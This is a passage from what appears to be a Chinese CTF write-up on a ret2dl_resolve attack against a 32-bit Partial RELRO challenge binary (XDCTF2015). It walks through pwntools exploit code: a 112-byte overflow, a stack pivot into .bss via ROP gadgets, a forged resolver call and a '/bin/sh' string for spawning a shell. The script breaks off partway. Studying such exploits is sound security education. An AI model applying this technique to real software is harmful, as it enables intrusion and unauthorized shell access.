 ```python
new_stack_esp=bss_addr+0x300
new_stack_ebp=bss_addr+0x500
payload1='a'*112+p32(read_plt)+p32(three_pop_gadget)+p32(0)+p32(bss_addr+0x300)+p32(0x100)#esp低地址；ebp高地址
payload1+=p32(pop_ebp_gadget)+p32(new_stack_esp)+p32(leave_retn_gadget) #eip->bss
p.recvuntil('Welcome to XDCTF2015~!\n')
p.sendline(payload1)
```

迁移完成后劫持程序到jmp _dl_runtime_resolve处：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627905620142-7d2f8f1b-97c4-48af-8b59-3d5148dc6510.png)

回头看一下payload：

```python
payload2=p32(0xdeadbeef)+p32(jmp_to_dl_runtime_resolve_addr)+p32(reloc_arg)+p32(0xdeadbeef) #第二个deadbeef是虚假的返回地址
payload2+=p32(1)+p32(bss_addr+0x300+80)+p32(len(string))
```

在payload2中我们模拟了在push link_map之前将reloc_arg压栈的操作：p32(reloc_arg)；这里可以想一下在进入某个如write等函数之前是先要将返回地址压栈的（call write），为了保持栈平衡，所以第二个p32(0xdeadbeef)的作用是当作虚假的返回地址，剩下的参数就好理解了，进入call之前将三个参数压入到栈中。打印参数的位置，可以使用如下方法确定：

```python
payload2=p32(0xdeadbeef)+p32(jmp_to_dl_runtime_resolve_addr)+p32(reloc_arg)+p32(0xdeadbeef) #第二个deadbeef是虚假的返回地址
payload2+=p32(1)+p32(bss_addr+0x300+80)+p32(len(string))
gdb.attach(p)
p.sendline(payload2)
p.interactive()
```

运行脚本后可以单步步入到write的call   dword ptr gs:[0x10]中的sysenter进行查看：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627906388224-ff2bceb4-fb5b-479d-b766-c893432c6218.png)

所以完整的payload如下：

```python
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./main_partial_relro_32')
elf=ELF('./main_partial_relro_32')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']

pop_ebp_gadget=0x0804864b
leave_retn_gadget=0x08048465 #mov esp,ebp;pop ebp
three_pop_gadget=0x08048649


new_stack_esp=bss_addr+0x300
new_stack_ebp=bss_addr+0x500
payload1='a'*112+p32(read_plt)+p32(three_pop_gadget)+p32(0)+p32(bss_addr+0x300)+p32(0x100)#esp低地址；ebp高地址
payload1+=p32(pop_ebp_gadget)+p32(new_stack_esp)+p32(leave_retn_gadget) #eip->bss
p.recvuntil('Welcome to XDCTF2015~!\n')
p.sendline(payload1)

reloc_arg=0x20
jmp_to_dl_runtime_resolve_addr=0x08048370
string="/bin/sh\x00"
```